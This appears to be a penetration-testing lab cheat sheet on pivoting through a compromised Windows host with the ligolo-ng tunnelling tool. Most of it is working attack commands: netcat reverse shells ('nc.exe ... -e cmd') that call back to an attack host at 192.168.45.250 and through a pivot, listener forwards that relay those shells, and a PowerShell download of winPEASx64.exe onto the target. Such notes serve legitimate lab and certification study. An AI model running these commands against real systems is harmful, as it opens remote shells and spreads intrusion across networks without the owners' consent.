```ligolo-ng
1
```

```ligolo-ng
start
```
Output:
```
[Agent : RELIA\jim@WK01] » INFO[0537] Starting tunnel to RELIA\jim@WK01
```
### Setting up listeners to receive reverse shells
#### Set up a netcat listener on attack host
```Shell
nc -lnvp 4848
```
#### Execute netcat on next windows host
```cmd.exe
.\nc.exe 192.168.45.250 4848 -e cmd
```
#### Add a listener to ligolo agent
```ligolo-ng
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4848
```
Anything that comes to port 1234 on the windows pivot host will be forwarded to port 4848 on our attack host (the netcat listener)
#### List listeners
```ligolo-ng
listener_list
```
#### Execute netcat command to connect to internal IP of pivot host and port 1234
```cmd.exe
.\nc.exe 172.16.116.14 1234 -e cmd
```
### Uploading files
#### In ligolo-ng add another listener that connects to your web server on kali
```ligolo-ng
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:8000
```
#### Upload on remote host
```PowerShell
iwr -uri http://172.16.116.14:1235/winPEASx64.exe -Outfile winPEASx64.exe
```